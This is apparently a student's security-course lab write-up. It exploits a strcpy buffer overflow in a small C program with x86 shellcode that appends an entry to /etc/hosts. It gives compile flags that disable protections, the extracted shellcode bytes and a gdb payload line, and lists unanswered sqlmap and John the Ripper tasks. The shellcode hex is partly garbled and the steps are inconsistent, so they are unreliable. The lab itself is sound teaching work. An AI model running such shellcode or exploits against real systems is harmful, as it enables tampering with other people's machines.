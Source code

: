 # LAB#1, Doan Minh Khanh,   INSE331280E_02FIE

# Task 1: Software buffer overflow attack
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode in asm. This shellcode add a new entry in hosts file
```
global _start

section .text

_start:
    xor ecx, ecx
    mul ecx
    mov al, 0x5     
    push ecx
    push 0x7374736f     ;/etc///hosts
    push 0x682f2f2f
    push 0x6374652f
    mov ebx, esp
    mov cx, 0x401       ;permmisions
    int 0x80            ;syscall to open file

    xchg eax, ebx
    push 0x4
    pop eax
    jmp short _load_data    ;jmp-call-pop technique to load the map

_write:
    pop ecx
    push 20             ;length of the string, dont forget to modify if changes the map
    pop edx
    int 0x80            ;syscall to write in the file

    push 0x6
    pop eax
    int 0x80            ;syscall to close the file

    push 0x1
    pop eax
    int 0x80            ;syscall to exit

_load_data:
    call _write
    google db "127.1.1.1 google.com"

```
**Question 1**:
- Compile asm program and C program to executable code. 
- Conduct the attack so that when C executable code runs, shellcode will be triggered and a new entry is  added to the /etc/hosts file on your linux. 
  You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
  
**Answer 1**: Must conform to below structure:


- Compile asm program and C program to executable code. 
  
Run docker

Copy the above code c into the folder Security-lab/buffer-overflow/vuln.c

Do the same for the shellcode, copy into the file_del

Create the file out vuln.o to execute the code

``` 
gcc -g vuln.c -o vuln.out -fno-stack-protector -mpreferred-stack-boundary=2  
```
   Create a file_asm out by these 2 commands
``` 
nasm -g -f elf file_del.asm

ld -m elf_i386 -o file_del file_del.o
```
Then I will get the hexstring of file_del
``` 
for i in $(objdump -d file_del |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo
```
Then I have a ressult
``` 
\x31\xc9\xf7\xe1\xb0\x05\x51\x68\x6f\x73\x74\x73\x68\x2f\x2f\x2f\x68\x68\x2f\x65\x74\x63\x89\xe3\x66\xb9\x01\x04\xcd\x80\x93\x6a\x04\x58\xeb\x10\x59\x6a\x14\x5a\xcd\x80\x6a\x06\x58\xcd\x80\x6a\x01\x58\xcd\x80\xe8\xeb\xff\xff\xff\x31\x32\x37\x2e\x31\x2e\x31\x2e\x31\x20\x67\x6f\x6f\x67\x6c\x65\x127.1.1.1\xgoogle\x2e\x63\x6f\x6d\x.com
``` 
The picture of the above actions:
![createpicture](./img/lab1_pic1.png)


- Conduct the attack so that when C executable code runs, shellcode will be triggered and a new entry is  added to the /etc/hosts file on your linux. 
output screenshot (optional)

Stack frame:
![createpicture](./img/test1-stackframe.png)

To execute the the file_del, it needs to overwrite the buffer

find the shellcode address by
``` 
gdb -q vuln.out  
``` 


gcc -g -m32 -fno-stack-protector -z execstack -o vuln.out vuln.c

export mybuf="/home/seed/seclabs/Security-labs/Software/buffer-overflow/file_del"

![createpicture](./img/libc%20(2).png)
```
r $(python -c "print('a'*20 + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' +  '\x2a\xdf\xff\xff')")
```
**Conclusion**: comment text about the screenshot or simply answered text for the question
# Task 2: Attack on the database of Vulnerable App from SQLi lab 
- Start docker container from SQLi. 
- Install sqlmap.
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**: